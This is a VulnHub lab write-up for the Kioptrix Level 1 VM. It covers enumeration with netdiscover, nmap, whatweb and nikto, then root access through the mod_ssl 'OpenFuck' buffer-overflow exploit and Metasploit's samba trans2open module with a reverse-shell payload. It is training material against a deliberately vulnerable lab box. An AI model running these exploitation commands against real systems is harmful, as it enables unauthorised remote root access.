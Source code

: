 ```yaml
---
layout: post
title: "VulnHub - Kioptrix Level 1"
date: 2022-02-04
categories: [VulnHub, Linux]
tags: [boot2root]
image: ../../assets/img/posts/Kioptrix Level 1/kioptrix.png 

---
```


## Description

This Kioptrix VM Image are easy challenges. The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges. 

|**Box**|Kioptrix Level 1|
|:---:|:---:|
|**OS**|Linux|
|**Difficulty**|Easy|
|**Box Link**| https://www.vulnhub.com/entry/kioptrix-level-1-1,22/ |
|**Creator**|[Kioptrix](https://www.vulnhub.com/author/kioptrix,8/)|

---

We'll start with first discovering the IP address of the box using netdiscover tool,

```bash
sudo netdiscover -r 10.0.2.0/24
```

![netdiscover](../../assets/img/posts/Kioptrix Level 1/netdiscover.png)

Okay, so the IP address of the box is 10.0.2.21.

Now, let's start port scanning with **nmap**,

```bash
sudo nmap -A -T4 -p- -oN nmap_scan 10.0.2.21
```

![nmap1](../../assets/img/posts/Kioptrix Level 1/nmap1.png)
![nmap2](../../assets/img/posts/Kioptrix Level 1/nmap2.png)

there are multiple open ports present. We'll enumerate them individually.

Since we know that this box is running a webserver which host a website, so we'll first see how many technologies are running on website with whatweb tool,

```bash
whatweb http://10.0.2.21
```

![whatweb](../../assets/img/posts/Kioptrix Level 1/whatweb.png)

this is running mod_ssl (exploit) impressive :0. Let's enumerate it more.

let's visit http://10.0.2.21,

![web1](../../assets/img/posts/Kioptrix Level 1/web1.png)

that's a simple apache installation text page.

let's visit https://10.0.2.21 as well,

![web2](../../assets/img/posts/Kioptrix Level 1/web2.png)

we can see that this is a same page which we encountered before on port 80.

Let's run **nikto** tool to scan website for vulnerabilities,

```bash
nikto --host http://10.0.2.21
```

![nikto1](../../assets/img/posts/Kioptrix Level 1/nikto1.png)

there are many things to look for but the thing which takes my attention is this website is vulnerable to **mod_ssl 2.8.4 exploit**.

![nikto2](../../assets/img/posts/Kioptrix Level 1/nikto2.png)

We can take a look at this exploit code on https://www.exploit-db.com/exploits/764 and this exploit's name is OpenFuckV2. This mod_ssl vulnerability allows buffer overflow to gain remote shell.

Let's look at the how this exploit work and download this exploit from github https://github.com/heltonWernik/OpenLuck

![web3](../../assets/img/posts/Kioptrix Level 1/web3.png)

follow the steps in usage image from github to fireup the exploit,

```bash
git clone https://github.com/heltonWernik/OpenLuck.git
cd Openluck
sudo apt-get install libssl-dev
compiling exploit,
gcc -o OpenFuck OpenKuck.c -lcrypto
```

let's see how this exploit works,

```bash
./OpenFuck
```

![openluck](../../assets/img/posts/Kioptrix Level 1/openluck.png)

seems like we've to first we've to provide supported offset of the version running on the box.

we'll use RedHat linux 7.2 version offset 0x6b,

```bash
./OpenFuck 0x6b 10.0.2.21 443 -c 41
```

![openluck2](../../assets/img/posts/Kioptrix Level 1/openluck2.png)

we got ROOT!!!

Note: This exploit might take 2-3 tries to get you a shell, so try hard ;).

## Metasploit Method

Let's fireup the metasploit framework using `msfconsole` and we'll look how to exploit this box.

we'll search for samba exploit modules in msfconsole,

```bash
search linux samba
```

![msf1](../../assets/img/posts/Kioptrix Level 1/msf1.png)

okay, so we got trans2open exploit and we're going to use that to gain a system access.

```bash
use exploit/linux/samba/trans2open
```

![msf2](../../assets/img/posts/Kioptrix Level 1/msf2.png)

we can see that our payload is automatically assigned as generic/shell_reverse_tcp, if not, then set it using `set payload generic/shell_reverse_tcp`.

now type `options` to show list of options we have in this module,

![msf3](../../assets/img/posts/Kioptrix Level 1/msf3.png)

here we'll set RHOSTS to our kioptrix box's IP. To set this ip, type `set rhosts 10.0.2.21` and then fireup the module using `exploit`,

![msf4](../../assets/img/posts/Kioptrix Level 1/msf4.png)
![msf5](../../assets/img/posts/Kioptrix Level 1/msf5.png)

we got system shell!!

**Note: After firing up this exploit, it might take some time get root shell. Have patience and if it doesn't work then try again.**

We saw both methods, i.e. Manual method by using OpenFuckV2 exploit and Automated Method using Metasploit Framework to exploit this box.
